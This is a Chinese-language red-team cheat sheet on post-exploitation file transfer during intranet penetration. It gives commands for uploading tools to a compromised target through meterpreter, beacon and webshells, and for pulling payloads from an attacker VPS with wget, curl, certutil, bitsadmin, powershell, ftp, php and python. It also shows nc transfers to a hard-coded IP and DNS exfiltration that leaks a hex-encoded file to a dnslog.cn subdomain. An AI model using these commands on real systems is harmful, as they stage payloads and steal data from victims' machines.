 # 内网渗透-文件传输

### 常见文件上传方法

1. 通过webshell管理工具上传文件
2. meterpreter> upload [目标文件路径] [靶机路径]
3. beacon> upload [目标文件路径] [靶机路径]



### 常用上传和下载方法

##### Linux

url下载

```shell
## 在云服务器目标文件目录开启一个http监听，可以用于命令执行漏洞

# python3开启http监听
python3 -m http.server 8888

# python2开启http监听
python2 -m SimpleHTTPServer 8888

# php开启http监听
php -S 0.0.0.0:8888


## 通过url下载文件
wget [url+file] -O [指定路径+(文件名)]

curl [url+file] -o [指定路径+(文件名)]
```

nc数据传输

```shell
#1. 反弹文件
VPS> cat 1.py |  nc -lvvp 1234

靶机> nc 141.164.37.14 1234 > 2.py


# 正向文件
靶机> nc -lvvp 12345 > 111_nc.py

VPS> nc 靶机ip 12345 < 1.py
```

DNS传输数据

```shell
## 不常用，是在目标机器无法出网或命令无法回显的情况下可以尝试

cat 1.py | xxd -p -c 16 | while read line; do host $line.u8h6q4.dnslog.cn;done
```



##### Windows

[certutil](https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/certutil)

```shell
# 下载文件
certutil -urlcache -split -f [url+file]

# 清除文件
certutil -urlcache -split -f [url+file] delete
```

[bitsadmin](https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/bitsadmin)

```shell
# 下载文件
bitsadmin /transfer [anyname] [url+file] [绝对路径+(文件名)]

# 缺点：不支持python开启的http服务下载
```

powershell

```shell
# 下载文件
cmd> powershell Invoke-webrequest -uri "[url+file]" -OutFile "[文件名]"

cmd> powershell (new-object net.Webclient).downloadfile('[url+file]','[文件名]')
```

ftp

```shell
# 云服务器开启ftp 
python -m pyftpdlib  (pip install pyftpdlib)  匿名的ftp服务，用户和密码 anonymous

# 靶机运行 ftp 连接ftp服务下载文件
cmd> ftp
ftp> open  141.164.37.14
ftp> 输入用户名 anonymous  密码anonymous
ftp> get 1.py
ftp> quit
cmd>
```



##### 脚本语言

php

```php
php -r 'file_put_contents("[文件名]",file_get_contents("[url+file]"));' 
```

python

 ```python
 import urllib2 
 u = urllib2.urlopen('[url+file]')
 f = open('[文件名]','w')
 f.write(u.read())
 f.close()
 ```



 